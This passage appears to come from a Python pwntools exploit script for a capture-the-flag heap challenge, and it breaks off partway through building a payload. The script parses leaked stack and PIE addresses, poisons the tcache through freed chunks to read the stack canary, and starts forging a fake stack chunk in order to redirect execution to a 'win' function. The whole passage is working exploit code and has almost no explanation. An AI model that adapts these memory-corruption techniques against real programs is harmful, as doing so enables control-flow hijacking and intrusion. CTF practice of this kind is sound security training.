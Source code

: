 ```python
def scanf(idx, data):
    target.sendlineafter(b": ", b"scanf")
    target.sendlineafter(b"Index: ", str(idx).encode())
    target.sendline(data)


def quit():
    target.sendlineafter(b": ", b"quit")


def launch():
    global target
    if args.L:
        target = process(FILE)
    else:
        target = remote(HOST, PORT)


def main():
    launch()

    target.recvuntil(b"allocations is at: ")
    stack = int(target.recvline().strip()[:-1], 16)
    target.recvuntil(b"main is at: ")
    pie_base = int(target.recvline().strip()[:-1], 16) - 0x1AFD

    fake_chunk = stack + 0x10
    canary = stack + 0x108
    win = pie_base + 0x1A00

    target.success(f"stack: {hex(stack)}")
    target.success(f"pie_base: {hex(pie_base)}")
    target.success(f"fake_chunk: {hex(fake_chunk)}")
    target.success(f"canary: {hex(canary)}")
    target.success(f"win: {hex(win)}")

    malloc(0, 0)
    malloc(1, 0)
    free(1)
    free(0)

    # raw_input("DEBUG")
    scanf(0, p64(canary + 1))
    malloc(0, 0)
    malloc(0, 0)
    puts(0)
    target.recvuntil(b"Data: ")
    canary = int.from_bytes(target.recvline().strip().rjust(0x8, b"\x00"), "little")
    target.success(f"canary: {hex(canary)}")

    malloc(0, 0)
    malloc(1, 0)
    free(1)
    free(0)
    # raw_input("DEBUG")
    scanf(0, p64(stack))
    malloc(0, 0)
    malloc(0, 0)

    # fake chunk
    payload = flat(
        0,
        0x200, # chunk size
```